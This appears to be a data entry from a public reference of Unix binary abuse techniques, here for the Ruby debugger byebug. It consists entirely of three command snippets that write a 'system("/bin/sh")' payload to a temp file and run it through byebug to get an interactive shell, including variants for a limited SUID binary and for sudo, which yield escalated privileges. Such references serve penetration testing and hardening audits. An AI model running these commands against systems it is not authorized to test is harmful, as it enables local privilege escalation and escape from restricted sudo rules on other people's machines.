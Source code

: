   shell:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        byebug $TF
        continue
  limited-suid:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        ./byebug $TF
        continue
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        sudo byebug $TF
        continue
---
